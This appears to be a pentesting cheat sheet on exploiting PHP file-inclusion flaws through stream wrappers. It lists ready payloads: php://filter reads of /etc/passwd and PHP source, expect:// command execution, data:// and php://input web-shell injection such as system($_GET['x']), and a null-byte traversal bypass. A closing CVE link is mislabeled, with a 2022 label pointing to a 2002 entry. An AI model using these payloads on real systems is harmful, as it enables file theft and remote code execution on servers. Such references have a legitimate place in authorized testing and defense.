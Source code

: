 Using [`filter`](https://www.php.net/manual/en/filters.php) [wrapper](https://www.php.net/manual/en/wrappers.php.php) to grab local files:

```sh
# filter without any processing to grab plaintext:
php://filter/resource=/path/to/flle
# Example:
curl http://example.com/index.php?page=php://filter/resource=/etc/passwd


# base64 encode file before grabbing (helps grab php source or binary files)
# available starting with PHP 5.0.0
php://filter/convert.base64-encode/resource=/path/to/file
# Example:
curl http://example.com/index.php?page=php://filter/convert.base64-encode/resource=admin.php


# ROT13 encode file:
php://filter/read=string.rot13/resource=/etc/passwd

# chaining multiple filters with "|":
php://filter/string.toupper|string.rot13/resource=/path/to/file

# list of useful filters:
# https://www.php.net/manual/en/filters.php
string.toupper
string.tolower
string.rot13
convert.base64-encode
convert.base64-decode
zlib.deflate  # i.e. gzip, without headers/trailers
zlib.inflate  # i.e. gunzip
bzip2.compress
bzip2.decompress
```

Code execution with `expect`, `data`, and `input` wrappers:

```sh
# run commands directly if 'expect' extension installed (not default):
expect://whoami

# inject arbitrary string into the file if 'allow_url_include' setting is enabled.
# can be used for code execution, XSS, etc.:
data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+  # injects "<?php phpinfo();?>"

# When injecting php code, a good way to test code execution is with:
<?php phpinfo();?>

# use "data:" to inject executable php code directly into the URL
data:text/plain,<?php phpinfo(); ?>
data:,<?system($_GET['x']);?>&x=ls
data:;base64,PD9zeXN0ZW0oJF9HRVRbJ3gnXSk7Pz4=&x=ls

# Use 'php://input' as the query param's value to tell it to look at the POST
# request body for the text to insert there. Useful for injecting complex
# php payloads
php://input
# example POST body: <?php system('whoami'); ?>

# FILTER BYPASSES:
# Sometimes you can bypass filters or trick PHP not to concatenate a .php file extension onto
# a file path by injecting a NULL byte. E.g.:
?page=../../../etc/passwd%00
# You can take this technique further and URL-encode the entire php://filter
```

[cve-2022-1744]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1744